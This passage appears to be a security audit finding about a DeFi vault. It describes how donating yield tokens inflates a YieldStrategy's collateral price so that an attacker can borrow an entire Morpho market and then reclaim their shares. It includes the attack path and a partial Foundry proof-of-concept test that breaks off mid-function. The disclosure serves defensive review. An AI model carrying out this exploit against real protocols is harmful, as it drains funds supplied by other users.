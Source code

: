 Crucially, the attacker only loses the `1e18` donation of the yield token — which inflated the `price()` — and they can still finalize their withdrawal request and reclaim their original shares.


### Internal Pre-conditions

1. User has significant share of the YieldStrategy such that withdrawing all and donating would increase the rate

### External Pre-conditions

None needed

### Attack Path

1. initiateWithdraw() on YieldStrategy
2. donate some yieldToken to YieldStrategy
3. Borrow the entire YieldStrategy/asset morpho market
4. Finalize the withdrawal request, get back the collaterals

### Impact

All supplied funds to morpho market will be lost. 


### PoC

```solidity
// forge test --match-test test_Drain_MorphoSuppliers_ByInflationDonation -vv
    function test_Drain_MorphoSuppliers_ByInflationDonation() public {
        vm.skip(address(managers[stakeTokenIndex]) == address(0));

        console.log("Asset is", IERC20Metadata(address(asset)).symbol());

        address tapir = address(69);
        deal(address(asset), tapir, defaultDeposit); 
        _enterPosition(tapir, defaultDeposit, 0);
        uint256 balanceBefore = lendingRouter.balanceOfCollateral(tapir, address(y));

        console.log("Effective supply before initiate withdraw: ", y.effectiveSupply());
        console.log("Price before initiate withdraw: ", y.price());

        MarketParams memory marketParams = MorphoLendingRouter(address(lendingRouter)).marketParams(address(y));
        Position memory position = MORPHO.position(Id.wrap(keccak256(abi.encode(marketParams))), tapir);
        uint maxBorrow = position.collateral * y.price() / 1e36;
        console.log("Max borrow is: ", maxBorrow);

        vm.startPrank(tapir);
        lendingRouter.initiateWithdraw(tapir, address(y), getWithdrawRequestData(tapir, balanceBefore));

        position = MORPHO.position(Id.wrap(keccak256(abi.encode(marketParams))), tapir);
        maxBorrow = position.collateral * y.price() / 1e36;
        console.log("Max borrow after initiate withdraw: ", maxBorrow);

        console.log("Effective supply after initiate withdraw: ", y.effectiveSupply());
        console.log("Price after initiate withdraw: ", y.price());

        deal(address(y.yieldToken()), tapir, 1e18);
        console.log("Yield token of the vault: ", IERC20Metadata(address(y.yieldToken())).symbol());
        IERC20(y.yieldToken()).transfer(address(y), 1e18);

        position = MORPHO.position(Id.wrap(keccak256(abi.encode(marketParams))), tapir);
```